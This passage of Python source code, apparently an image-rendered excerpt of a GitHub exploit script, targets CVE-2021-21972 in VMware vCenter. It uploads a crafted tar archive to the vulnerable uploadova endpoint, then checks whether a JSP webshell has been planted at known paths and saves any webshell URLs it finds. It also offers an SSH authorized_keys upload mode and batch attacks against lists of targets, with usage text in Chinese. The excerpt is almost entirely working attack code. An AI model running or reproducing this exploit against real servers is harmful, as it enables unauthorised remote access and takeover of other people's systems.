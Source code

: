 ```python
	payload_tar.close()


def send_payload(target, payload_type):
	url = (target + '/ui/vropspluginui/rest/services/uploadova').replace('//ui', '/ui')
	files = {'uploadFile': ('1.tar', open('payload_linux.tar', 'rb'), 'application/octet-stream')}
	web = requests.post(url, files=files,verify=False,proxies=proxy)
	if web.status_code == 200:
		if web.text == 'SUCCESS':
			if payload_type == 'ssh':
				print('\t文件写入成功')
		if payload_type != 'ssh':
			webshell = (target + '/ui/resources/test.jsp').replace('//ui', '/ui')
			web = requests.get(webshell,verify=False,proxies=proxy)
			if web.status_code != 404:
				print('\twebshell地址：%s' % webshell)
				return True
	files = {'uploadFile': ('1.tar', open('payload_win.tar', 'rb'), 'application/octet-stream')}
	web = requests.post(url, files=files,verify=False,proxies=proxy)
	if web.status_code == 200:
		if web.text == 'SUCCESS':
			print('\t文件写入成功')
			webshell = (target + '/statsreport/test.jsp').replace('//statsreport', '/statsreport')
			web = requests.get(webshell,verify=False,proxies=proxy)
			if web.status_code != 404:
				print('\twebshell地址：%s' % webshell)
				with open("webshell地址.txt", "a+") as fff:
					fff.write('webshell地址：%s \n' % webshell)
				return True
	return False

def help():
	print(
	"""
	Usage:CVE-2021-21972.py [option]
	-u or --url：目标url
	-t or --type：攻击方式（ssh/webshell)
	-f or --file：要上传的文件（webshell或authorized_keys）	例如：CVE-2021-21972.py -u https://127.0.0.1 -t webshell -f shell.jsp
	-p or --proxy：设置代理	例如：CVE-2021-21972.py -u https://127.0.0.1 -t webshell -f shell.jsp -p http://127.0.0.1:8080
	-l or --list：批量检测	例如：CVE-2021-21972.py -l list.txt -t webshell -f shell.jsp
	"""
    )

if __name__ == "__main__":
	if len(sys.argv) == 1:
		help()
		sys.exit()

	try:
		opts, args = getopt.getopt(sys.argv[1:], "l:u:t:f:p:")
	except getopt.GetoptError:
		print("argv error,please input")
	targets = []
	payload_type = ''
	filename = ''
	for opt, arg in opts:
		if opt in ('-p', '--proxy'):
			proxy = {arg[:arg.find(':')]: arg}
	for opt, arg in opts:
		if opt in ('-l', '--list'):
			with open(arg, 'r') as t:
```